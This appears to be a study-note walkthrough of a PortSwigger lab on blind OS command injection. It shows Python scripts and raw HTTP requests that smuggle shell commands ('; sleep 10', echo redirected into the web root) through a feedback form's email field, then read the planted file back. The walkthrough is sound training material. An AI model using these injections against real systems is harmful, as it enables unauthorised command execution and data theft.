

## Understanding the Vulnerability

### Identifying the Vulnerable Parameter

The first step in exploiting an OS command injection vulnerability is to identify which parameter is vulnerable. In this case, the vulnerable parameter is the `email` field.

### Confirming the Vulnerability

To confirm that the application is vulnerable to command injection, we can test it by injecting a command that causes a delay. For example, we can use the `sleep` command to make the application wait for a certain amount of time before responding.

#### Example Code

```python
import requests

url = "http://example.com/feedback"
data = {
    "email": "test@example.com; sleep 10",
    "message": "Test message"
}

response = requests.post(url, data=data)
print(response.text)
```

If the application responds after a delay, it confirms that the `email` field is vulnerable to command injection.

### Exploiting the Vulnerability

Once we have confirmed that the `email` field is vulnerable, we can attempt to exploit it to exfiltrate data. One common technique is to redirect the output of a command to a publicly accessible location within the application.

### Finding a Publicly Accessible Location

To find a publicly accessible location within the application, we can use tools like Burp Suite to inspect the HTTP traffic. By analyzing the HTTP history, we can identify endpoints that are publicly accessible.

#### Example HTTP Traffic Analysis



By analyzing the HTTP history, we can identify the `/images` endpoint, which is publicly accessible.

### Redirecting Output to the Images Folder

Once we have identified the publicly accessible location, we can redirect the output of our command to this location. For example, we can use the `echo` command to write data to a file in the images folder.

#### Example Code

```python
import requests

url = "http://example.com/feedback"
data = {
    "email": "test@example.com; echo 'Sensitive Data' > /var/www/html/images/injected.txt",
    "message": "Test message"
}

response = requests.post(url, data=data)
print(response.text)
```

After executing this command, we can visit the `/images/injected.txt` endpoint to retrieve the exfiltrated data.

### Full HTTP Request and Response

Here is the full HTTP request and response for the above example:

#### HTTP Request

```http
POST /feedback HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

email=test%40example.com%3B+echo+%27Sensitive+Data%27+%3E+/var/www/html/images/injected.txt&message=Test+message
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Jan 2024 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 12
Content-Type: text/html

Feedback submitted
```

### Verifying the Exfiltration

After executing the command, we can verify that the data has been exfiltrated by visiting the `/images/injected.txt` endpoint.

#### HTTP Request

```http
GET /images/injected.txt HTTP/1.1
Host: example.com
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Jan 2024 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 13
Content-Type: text/plain

Sensitive Data
```

---
<!-- nav -->
[[10-Redirecting the Output|Redirecting the Output]] | [[Web Security (PortSwigger)/10-OS Command Injection/04-Lab 3 Blind OS command injection with output redirection/00-Overview|Overview]] | [[Web Security (PortSwigger)/10-OS Command Injection/04-Lab 3 Blind OS command injection with output redirection/12-Conclusion|Conclusion]]
